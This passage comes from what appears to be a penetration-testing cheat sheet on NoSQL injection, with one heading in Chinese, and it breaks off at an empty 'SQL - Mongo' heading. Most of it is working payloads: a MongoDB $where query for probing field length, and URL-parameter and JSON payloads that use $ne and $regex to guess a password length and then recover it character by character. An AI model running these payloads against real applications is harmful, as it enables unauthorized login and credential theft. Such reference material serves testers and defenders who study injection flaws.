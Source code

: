 To extract the length of a field in a NoSQL database, you can use the `$where` operator along with JavaScript code. The JavaScript code should return the length of the field you want to extract.

```javascript
db.collection.find({ $where: "this.field.length == 10" })
```

Replace `collection` with the name of the collection you want to query, and `field` with the name of the field you want to extract the length from. Adjust the length value (`10` in the example) according to your needs.

This technique can be useful in scenarios where you want to gather information about the structure of the database or perform further exploitation based on the length of a field.
```bash
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
# True if the length equals 1,3...
```
### 提取**数据**信息

In NoSQL databases, data extraction is a common task during penetration testing. NoSQL injection vulnerabilities can be exploited to extract sensitive information from the database. The extracted data can include usernames, passwords, email addresses, and other valuable information.

To extract data from a NoSQL database, you can use techniques such as boolean-based blind injection, time-based blind injection, and error-based injection. These techniques involve injecting specially crafted payloads into the application's input fields to manipulate the database queries and retrieve the desired information.

It is important to note that data extraction should only be performed with proper authorization and for legitimate purposes. Unauthorized access to databases and extraction of sensitive information is illegal and unethical.

Remember to always obtain proper permission and follow ethical guidelines when performing penetration testing or any other security-related activities.
```
in URL (if length == 3)
username[$ne]=toto&password[$regex]=a.{2}
username[$ne]=toto&password[$regex]=b.{2}
...
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*

in JSON
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
```
### **SQL - Mongo**
